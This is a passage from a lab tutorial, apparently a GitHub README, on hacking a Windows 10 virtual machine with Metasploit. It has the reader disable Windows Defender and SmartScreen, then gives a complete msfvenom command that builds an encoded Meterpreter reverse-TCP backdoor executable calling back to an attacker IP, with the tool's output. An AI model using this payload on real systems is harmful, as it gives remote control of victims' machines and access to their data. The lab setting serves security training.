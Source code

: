 # Hacking Windows using Metasploit / Meterpreter - Post-Exploitation
Metasploit Framework is a tool for developing and executing exploit code against a remote target machine.

### Backdoors
Backdoors are malicious files that contain Trojan or other infectious applications that can either halt the current system of a target machine or even gain partial/complete control over it. Attackers build such backdoors in attempt to gain remote access to victim machines. They send these backdoors through email, file-sharing web applications, shared networks drivers, among others, and entice the users to execute them. Once a user executes such application, and attacker can gain access to his/her affected machine and perform activities such as keylogging, sensitive data extraction, and so on.

### Objectives
* Learn to detect Trojan and Backdoor attacks.
* Creating a server and testing the network for attack.
* Attacking a network using a sample backdoor and monitor system activity.

### Requisites
* Kali Linux virtual machine
* Windows 10 virtual machine (Target)

***

Before beginning this lab, create a file called **passwords.txt** on **Windows 10** and write down some fake accounts like: 
* paypal: bobby123 / qwerty123
* twitter: bobby_123 / password123
* (...)

Save the file on your Desktop or Downloads folder.

_**Note: Make sure to disable Windows SmartScreen and Windows Defender**._

## Prepare the Backdoor

### 1. Create the Backdoor.exe
Switch to the Kali Linux and open the Terminal window.

Type the command to create the payload:

`msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.0.2.42 -f exe > /root/Desktop/Backdoor.exe`

Make sure to put your Kali IP on `LHOST`. If works, you will get this message below:

```
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of exe file: 73802 bytes
```
